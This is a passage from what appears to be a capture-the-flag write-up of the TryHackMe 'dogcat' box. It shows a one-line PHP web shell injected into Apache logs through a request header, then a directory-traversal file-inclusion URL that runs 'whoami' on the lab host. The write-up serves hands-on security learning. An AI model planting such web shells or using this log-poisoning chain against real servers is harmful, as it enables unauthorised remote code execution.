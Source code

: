 ```php
<?php system($_GET['cmd']);?>
```

![Burpsuit poison php header](/assets/images/thm_dogcat/thm_dogcat_burpsuit_1.jpg)

Now that we I have poisoned the logs I try to execute a simple whoami command to see if it works and it does.
```
http://10.10.124.115/?view=dog../../../../../../var/log/apache2/access.log&ext=&cmd=whoami
```

![dogcat LFI to code execution](/assets/images/thm_dogcat/thm_dogcat_lfi_2.jpg)
